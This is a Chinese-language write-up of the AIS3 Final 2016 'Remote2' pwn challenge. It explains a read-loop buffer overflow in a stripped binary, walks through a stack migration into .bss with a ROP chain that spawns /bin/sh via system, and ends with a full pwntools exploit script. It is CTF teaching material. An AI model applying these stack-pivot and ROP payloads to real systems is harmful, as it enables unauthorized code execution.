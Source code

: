 Title: [AIS3 FINAl 2016] Remote2
Date: 2016-08-29 20:33
Tags: AIS3, CTF, pwn, ROP, Stack Migration
Author: Naetw
Summary: A write-up for AIS3 FINAL 2016 Remote2

## Description

> 這題雖然沒在時間內解出來，但是在回家路上靈光乍現還是來寫一下好了
> 
> P.S 由於 **@Brainsp8210** 的 payload 比我漂亮不少其實可以直接看他的----->[傳送門](https://github.com/briansp8210)：
>
> 這題應該要會的，就是一個比較麻煩的 **Stack Migration**，經驗不夠，沒有第一時間想到解法 Orz

## Exploit

一開始先用 `file pwn2` 看了一下發現是 `strip` 過的 binary，就超級不想看的 QQ

直接執行程式，會噴一個`sh: 1: lsh: not found`，然後就停在那不知道在幹嘛，於是用 [Qira](https://github.com/BinaryAnalysisPlatform/qira) 追一下，隨便送幾個 AAAA 然後發現他在做 `read`，但是.....他是 1 byte 1 byte 的讀，然後最多可以讀 64 bytes，他會用 `[rbp-0x4]` 的 4 bytes 來判斷現在讀了多少 bytes 了

```
4005a3:       83 45 fc 01             add    DWORD PTR [rbp-0x4],0x1
4005a7:       83 7d fc 3f             cmp    DWORD PTR [rbp-0x4],0x3f
```

從這段可以發現，64 bytes 全部讀完可以剛好蓋到 **ret address** 控制他的 **control flow**

```
400582:       8b 45 fc                mov    eax,DWORD PTR [rbp-0x4]
400585:       48 8d 55 d0             lea    rdx,[rbp-0x30]
400589:       48 01 d0                add    rax,rdx
40058c:       ba 01 00 00 00          mov    edx,0x1
400591:       48 89 c6                mov    rsi,rax
400594:       bf 00 00 00 00          mov    edi,0x0
400599:       e8 a2 fe ff ff          call   400440 <read@plt>
```

而且因為他要讀入的地方會受 `[rbp-0x4]` 而決定，所以也不能透過改那邊的值多蓋幾個 bytes，所以就是控制 **rbp** 還有 **ret address** 來做到 `*Stack Migration*`

payload #1:

```python
payload = 'A'*44 + '\x2c' + '\x00'*3 + p64(buffer1) + p64(read_start)
```

這邊的 `'\x2c' + '\x00'*3` 是剛好蓋到 `rbp-0x4` 的地方 `0x2c == 44` 剛好代表前面已經讀入的 44 bytes 才能讓後面 payload 順利讀進去 stack 上，蓋完 `'\x2c' + '\x00'*3` 後下一格就是 `rbp` 的位置，為了要達到 `*Stack Migration*`，要把 `rbp` 控制到空的 buffer 上，也就是控制程式的 `Stack Frame`

找 `.bss` 段中沒有用到的地方來做寫入

```
00601000-00602000 rw-p 00001000 08:01 2878868
```

可以從後面找，比較不會影響到前面原有的東西，在這裡我的做法需要兩個 buffer，在 buffer1 的 **ret address** 後面蓋成完整的 `*ROP Chain*`
	
```python
buffer1 = 0x602000 - 0x100
buffer2 = buffer1 + 0x20 + 0xc
```

這邊的 `buffer2` 需要特別控制，因為在讀完 `buffer1` 跟 `buffer2` 之後需要再跳回 `buffer1` 之後直接讓他 `ret` 到疊好的 `*ROP Chain*`，而在跳回 `buffer1` 時，他一樣會檢查 `[rbp-0x4]` 的值，因此我們在讀 `buffer2` 的時候就必須讓他把 `rbp-0x4` 的內容改成 `0x00000000` 所以除了將 `buffer1` 往下拉 `0x20` 個 bytes 之外還需要多拉 `0xc` 這樣寫入的頭就會在 `rbp-0x4` 的地方

另外還有一個需要特別注意的是，在 `call read` 的時候程式會在 `buffer` 的頭減掉 `0x8` 的地方放上 `0x40059e`，在每次 call 完 read 之後會執行那段 code，重新回到迴圈繼續寫入，因此在 buffer2 的時候，需要在當前 `rsp-0x8` 的位置放置 `0x40059e`

payload #2, 3:

```python
r.send('A'*44 + '\x2c' + '\x00'*3 + p64(buffer2) + p64(read_start))
r.send('\x00'*4 + 'A'*8 + p64(read_judge) + p64(sh) + p64(system) + 'A'*8 + '\x2c' + '\x00'*3 + p64(buffer1) + p64(read_start))
```

最後再回到 buffer1 把 ret address 蓋成 `pop rdi ; ret`，他便會將剛剛放的 `address of /bin/sh` pop 到 rdi 然後 ret 執行 `system` 便能成功拿到 `shell`

## Final Exploit:

```python
#!/usr/bin/env python

from pwn import *

r = remote('127.0.0.1', 4000)
#r = remote('final.ais3.org', 35171)

pop_rdi_ret = 0x0000000000400623

system = 0x400430

sh = 0x400645

buffer1 = 0x602000-0x100

buffer2 = buffer1+0x20+0xc

read_start = 0x400581

read_judge = 0x40059e

r.send('A'*44 + '\x2c' + '\x00'*3 + p64(buffer1) + p64(read_start))
r.send('A'*44 + '\x2c' + '\x00'*3 + p64(buffer2) + p64(read_start))
raw_input('#')
r.send('\x00'*4 + 'A'*8 + p64(read_judge) + p64(sh) + p64(system) + 'A'*8 + '\x2c' + '\x00'*3 + p64(buffer1) + p64(read_start))
raw_input('@')
r.send('A'*44 + '\x2c' + '\x00'*3 + p64(0xdeadbeef) + p64(pop_rdi_ret))

r.interactive()
```
